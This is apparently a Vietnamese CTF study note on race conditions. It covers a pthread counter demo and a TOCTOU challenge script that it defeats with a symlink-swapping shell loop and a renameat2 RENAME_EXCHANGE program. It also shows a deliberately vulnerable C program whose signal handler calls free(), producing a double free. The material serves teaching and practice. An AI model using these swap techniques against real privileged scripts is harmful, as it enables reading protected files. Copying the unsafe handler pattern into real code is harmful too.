



# RACE CONDITION

- Thường xảy ra:

    - Hệ thống điện (trong các mạch logic)
    - Máy tính (chương trình có nhiều thread hoặc chương trình phân tán- chạy trên nhiều máy)

- Tranh chấp có điều kiện hay xảy ra khi một phần của chương trình phụ thuộc vào kết quả của các thread hoặc các process. Vì vậy ta cần ít nhất 2 luồng thực thi đồng thời. Luồng thực thi ở đây có thể là thread, process, task, v.v

- Sau đó, ta cần các luồng này chia sẻ các object như memory, file hệ thống, hoặc các tín hiệu.

- Cuối cùng, ta cần một luồng mà có thể thay đổi các object này để thay đổi trạng thái => làm các luồng sẽ chạy theo một hướng khác

```c

#include <pthread.h>

#include <stdio.h>


int counter;

void *IncreaseCounter(void *args) {

  counter += 1;

  sleep(0.1);

  printf("Thread %d has counter value %d\n", (unsigned int)pthread_self(),

         counter);

}

int main() {

  pthread_t p[10];

  for (int i = 0; i < 10; ++i) {

    pthread_create(&p[i], NULL, IncreaseCounter, NULL);

  }

  for (int i = 0; i < 10; ++i) {

    pthread_join(p[i], NULL);

  }

  return 0;

}
```

Ví dụ như chương trình [`race_condition_ex`](./example/race_condition_ex), chương trình dùng vòng lặp for tạo các thread thực thi hàm `IncreaseCounter`. Hàm đó thì sẽ tăng biến `counter` rồi chờ `0.1s` mới print ra

- Bạn nghĩ là nó sẽ in lần lượt theo thứ tự ư? **Không hề**:

```
$ ./race_condition_ex
Thread 163575488 has counter value 3
Thread 146790080 has counter value 4
Thread 155182784 has counter value 4
Thread 138397376 has counter value 5
Thread 130004672 has counter value 6
Thread 121611968 has counter value 8
Thread 113219264 has counter value 8
Thread 104826560 has counter value 8
Thread 96433856 has counter value 10
Thread 88041152 has counter value 10
```

- Tại sao lại lộn xộn như thế. Bởi khi các thread mới được tạo từ luồng chính. Khi mà các thread con chúng cộng biến counter rồi chúng `sleep(0.1)` xong đó mới print ra. Các luồng chia sẻ nhau cùng biến `counter` => Vô tình các thread con khi chạy sẽ cộng thêm vào biến đó. Một lúc sau mới print ra thì biến counter đã thành giá trị khác

## TOCTOU Race Condition

- `TOCTOU` - `Time of check Time of use` nói đến việc chương trình sẽ kiểm tra điều kiện của nguồn đó trước khi sử dụng nó. Tuy nhiên trong khoảng thời gian giữa kiểm tra và sử dụng. Chúng ta sẽ thay đổi nguồn đó.



### Example

```sh

#!/bin/bash
# Goal: read /flag

file="$1"
# Check if the file contains "flag"
if [[ "$file" != *"flag"* ]]; then
    # Check if the file is a symlink
    if [ ! -h "$file" ]; then
        # < EXPLOITABLE WINDOW >
        cat "$file"
    else
        echo "Error: File is a symlink."
    fi
else
    echo "Error: File may not contain 'flag'."
fi
```
- Chương trình cơ bản sẽ kiểm tra các điều kiện với file ta nhập vào.

    - **Check 1**: Kiểm tra xem tên file có chứa string `"flag"` hay không? Kiểm tra này tránh ta `cat flag` để lấy flag

    - **Check 2**: Kiểm tra rằng file đó có là một `symlink` (shortcut) không? Như vậy theo chương trình, ta cũng không thể dùng một symlink trỏ đến /flag để đọc được flag.

Vậy để exploit chall này, thì đúng như tên kĩ thuật là `TOCTOU`. Ta sẽ lợi dụng khoảng thời gian giữa lúc kiểm tra và lúc sử dụng để điều chỉnh file của chúng ta. 

- Để vượt qua được **Check 1** thì đơn giản ta sẽ sử dụng một symlink để trỏ đến file `/flag` thôi

- Còn để bypass **Check 2** thì input của ta phải là một file bình thường, không phải symlink. Vậy ý tưởng ở đây là lúc chương trình kiểm tra, ta sẽ tạo file đó hợp lệ nhưng khi kiểm tra hợp lệ xong rồi thì ta sẽ chuyển file đó thành symlink đến file `/flag` mà ta cần.

- Vì thời gian giữa lúc check và lúc sử dụng ta không thể kiểm soát được. Vậy nên ta sẽ thử nhiều lần để có cơ hội thành công.

Terminal 1:

```sh
$ while true; do ./read.sh file; done
```

Terminal 2:

```sh
while true; do 
    echo 'Hello, world!' > file
    rm file
    ln -s /flag file
    rm file
done
```

Khi này ở Terminal 2 sẽ liên tục tạo `file` là một file bình thường. Sau đó sẽ xóa đi và tạo `file` là `symlink`

Vậy khi tạo như một file bình thường thì ta sẽ vượt qua được **Check 2** sau đó nhanh chóng xóa file và tạo symlink thì khi chương trình gọi `cat file` thì sẽ in ra được flag của chúng ta:
```
...
cat: file: No such file or directory
Hello, world!
Hello, world!
Hello, world!
Hello, world!
cat: file: No such file or directory
cat: file: No such file or directory
cat: file: No such file or directory
cat: file: No such file or directory
Hello, world!
cat: file: No such file or directory
Error: File is a symlink.
cat: file: No such file or directory
cat: file: No such file or directory
cat: file: No such file or directory
cat: file: No such file or directory
Hello, world!
cat: file: No such file or directory
cat: file: No such file or directory
KCSC{fake_flagggggggggggg}
```


Với cách bên trên thì ta thấy để remove, và tạo lại mất khá nhiều thời gian, khiến việc kiểm tra đúng trở nên khó hơn. Vậy nên cách nhanh hơn đó là `RENAME_EXCHANGE`:

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>
#include <errno.h> // Added this to read system errors

int main(int argc, char *argv[]) {
    if (argc != 3) {
        printf("Usage: %s <file1> <file2>\n", argv[0]);
        return 1;
    }

    while (1) {
        // We capture the result of the syscall into an integer variable
        int result = syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
        
        // Check if the result is -1 (which means an error occurred)
        if (result == -1) {
            perror("The swap failed because"); // Prints the exact error message
            return 1; // Kill the program so it doesn't spam your terminal forever
        } else {
            printf("DONE\n");
        }
    }

    return 0;
}
```
Để nhanh hơn, chúng ta sẽ khởi tạo 1 `file` nội dung bình thường và một file `link` là symlink đến file `flag`:
```sh
$ echo 'Hello, world!' > file
$ ln -s ./flag link
```

Sau đó ta sẽ compile và chạy file `swap` với lệnh `./swap file link` để chương trình hoán đổi liên tục giữa `file` và `link`

Sau đó chạy vòng lặp `read.sh` thôi:




- Đôi khi chúng ta có thể lồng các folder vào nhau để có thể tăng thời gian từ lúc check đến lúc sử dụng:

```sh
$ ./maze.sh
maze/a_/b_/c_/d_/e_/f_/g_/h_/i_/j_/k_/l_/m_/n_/o_/p_/q_/r_/s_/t_/
$ echo 'Hello, world!' > maze/file.txt
# # Access file directly
$ time cat maze/file.txt
Hello, world!
real    0m0.002s
# # Access file through maze
$ time cat maze/a_/b_/c_/d_/e_/f_/g_/h_/i_/j_/k_/l_/m_/n_/o_/p_/q_/r_/s_/t_/file.txt 
Hello, world!
real    0m0.010s
```
### SIGNALS

- Ở trong các cách tấn công trước thì chúng ta cần chương trình có nhiều process hoặc nhiều thread. Tuy nhiên `race condition` còn có thể xảy ra ngay trong 1 thread. Đó là sử dụng `signal handler` để có thể ngắt luồng thực thi của chương trình.

- Chương trình có thể tạo các hàm xử lý khi các signal được gửi đến nó. Ví dụ như thực thi hàm `alarm()` khi chương trình nhận được signal `SIGALRM`

- Điều thú vị ở đây là chúng ta có thể gửi bất kỳ signal nào đến process với lệnh `kill`. Điều đó có thể khiến chương trình thực thi theo hướng khác đi.

- Chúng ta có thể xem full danh sách `signal` với lệnh `kill -l`:



- Để gửi signal đến chương trình, ta sẽ sử dụng lệnh:

`kill -<number_of_signal> <pid_of_program>`

#### Ví dụ:

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

// Global variable shared between main code and signal handler
char *user_data; 

// The Signal Handler
void cleanup_handler(int signum) {
    // VULNERABILITY: Calling free() inside a signal handler
    if (user_data != NULL) {
        free(user_data); 
    }
}

int main() {
    // 1. Allocate memory for the user
    user_data = (char *)malloc(256); 

    // 2. Register the signal handler for SIGUSR1 (Signal 10)
    signal(SIGUSR1, cleanup_handler);

    printf("Target running. My PID is: %d\n", getpid());

    // 3. Main program loop doing normal tasks
    while (1) {
        sleep(1);
    }
    return 0;
}
```

Ví dụ chương trình trên khi mà chương trình nhận được signal là `SIGUSR` thì chương trình sẽ gọi hàm `cleanup_handler` để `free(user_data)`

- Bản chất của hàm `free()` bên trong nó sẽ thực hiện nhiều lệnh khác khiến chương trình cần nhiều thời gian để thực hiện xong hàm `free()`

- Còn một signal là một báo động cấp phần cứng vậy nên nó được ưu tiên xử lý đầu tiên => nó sẽ ngắt mạch chương trình đang chạy và thực hiện hàm xử lý `signal`

- Vậy khi ta gửi signal nhiều lần liên tiếp, chương trình đang thực hiện hàm `free()` dở, nó sẽ ngắt ở đó và thực hiện hàm hàm xử lý signal. => Lúc đó ở hàm `free(user_data)` trước, chương trình chưa set được flag rằng chunk này đã free => Khi gọi `free(user_data)` lần 2, nó sẽ vượt qua kiểm tra double free và free chunk đó 1 lần nữa => Tạo ra lỗi **`Double Free`**